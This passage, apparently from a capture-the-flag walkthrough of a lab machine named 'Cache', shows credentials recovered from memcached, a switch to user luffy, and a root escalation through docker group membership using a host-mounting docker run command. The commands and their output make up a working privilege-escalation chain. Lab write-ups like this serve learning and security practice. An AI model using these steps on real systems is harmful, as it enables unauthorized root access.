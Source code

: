 ```bash
nothing
END

get account
VALUE account 0 9
afhj556uo
END
```

> User: luffy\
> Pass: 0n3_p1ec3

`id luffy` shows that luffy is a member of the docker group. That might be usefull. Change to user luffy with the obtained password.

```bash
ash@cache:/$ su luffy
su luffy
Password: 0n3_p1ec3

luffy@cache:/$ 
```

Use docker to mount the root image using <https://gtfobins.github.io/gtfobins/docker/>. First list the availabe images. Use an image to start a interactive container with the root folder mounted.

```bash
luffy@cache:/$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        18 months ago       64.2MB

luffy@cache:/$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root)

# cd root

# ls
root.txt

# cat root.txt
```
